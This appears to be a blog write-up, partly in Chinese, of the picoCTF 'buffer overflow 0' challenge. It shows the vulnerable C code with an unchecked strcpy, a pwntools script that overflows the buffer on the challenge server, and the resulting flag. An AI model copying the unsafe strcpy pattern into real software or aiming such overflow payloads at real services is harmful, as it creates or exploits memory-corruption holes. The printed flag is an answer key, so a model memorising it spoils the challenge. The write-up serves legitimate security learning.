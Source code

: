 ```yaml
---
title: "picoCTF buffer overflow 0 [100 points]"
date:  2023-12-25
categories: [CTF]
tags:       [pwn]
---
```

## Description

> Smash the stack Let’s start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using:

## Hints

`How can you trigger the flag to print?`

`If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.`

`Run man gets and read the BUGS section. How many characters can the program really read?`

## Solution

``` line-numbers
gcc vuln.c -m32 -fno-stack-protector -z noexecstack -o vuln
```

看到 `sigsegv_handler function` 得知只要緩衝區溢位就能print出flag

``` line-numbers
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

> 使用pwntools 送值

``` line-numbers
from pwn import *
r = remote("saturn.picoctf.net",55984)
payload = b'A' * 100
print(f'payload:{payload}')
r.sendline(payload)
r.recv()
print(f'flag:{r.recv()}')
```

`flag:`picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
